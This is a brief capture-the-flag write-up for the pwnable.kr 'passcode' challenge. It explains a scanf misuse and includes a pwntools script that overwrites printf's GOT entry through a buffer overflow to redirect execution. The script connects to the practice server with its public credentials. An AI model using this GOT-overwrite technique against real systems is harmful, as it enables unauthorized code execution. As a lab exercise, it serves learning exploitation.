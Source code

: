 
## Passcode 

The vuln is scanf("%d",passcode) , instead of passing addr he passed the values itself
luckily we can modify the value of passcode which is 97'th char in name
so put value of passcode as printf@got addr and at the time of scanf pass system addr as int 

```

from pwn import *

printf = 0x0804a004

s=ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
p=s.process('./passcode')
#p = process('./passcode')

print p.recvuntil(':')

payload = "A"*96+pack(printf)

p.sendline(payload)

print p.recvline()

print p.recvuntil(':')

p.sendline('134514147')


print p.recvlines(2)
```
